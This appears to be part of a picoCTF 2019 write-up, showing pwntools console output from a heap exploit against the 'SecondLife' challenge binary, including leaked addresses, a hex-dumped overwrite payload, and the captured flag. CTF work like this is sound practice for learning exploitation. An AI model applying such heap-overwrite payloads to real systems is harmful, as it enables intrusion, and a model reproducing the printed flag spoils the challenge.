 ```console
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.HYAo5mXrrn'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/secondlife_0_1d09c6c834e9512daebaf9e25feedd53'
[+] Starting remote process '/problems/secondlife_0_1d09c6c834e9512daebaf9e25feedd53/vuln' on 2019shell1.picoctf.com: pid 1136867
[*] Address of buffer: 0x9acd008
[*] Address of exit(): 0x804d02c
[*] Address of win(): 0x8048956
[*] payload:
    00000000  20 d0 04 08  10 d0 ac 09  68 56 89 04  08 c3        │ ···│····│hV··│··│
    0000000e
[+] Receiving all data: Done (32B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1136867)

picoCTF{HeapHeapFlag_8342a39b}
```